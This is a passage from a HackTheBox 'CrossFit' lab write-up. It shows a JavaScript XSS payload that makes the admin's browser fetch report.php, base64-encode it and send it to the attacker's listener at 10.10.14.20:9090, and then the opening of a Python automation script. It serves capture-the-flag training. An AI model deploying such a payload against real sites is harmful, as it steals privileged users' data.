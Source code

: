 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:52:34.png)

Ok, we know that it's getting back, now, we should get the report.php file, make the admin read that and send me the content of it

```js
function read_report(){
        var req=new XMLHttpRequest();
        var url = "http://gym-club.crossfit.htb/security_threat/report.php";
        req.open("GET", url, true);
        req.send();
        req.onreadystatechange = function(){
        if(req.readyState == XMLHttpRequest.DONE){
                var resultText = btoa(req.response);
                send(resultText)
                }
        }
}

function send(resultText){
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9090/?xss=' + resultText, true);
        xhr.send();
}

read_report();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2002:00:56.png)

Decode it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2002:01:11.png)

Nothing very useful

Sure! How I'm a guy that like the things scripted and automated... Let's automate the "file reader" now!

### Auto XSS

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```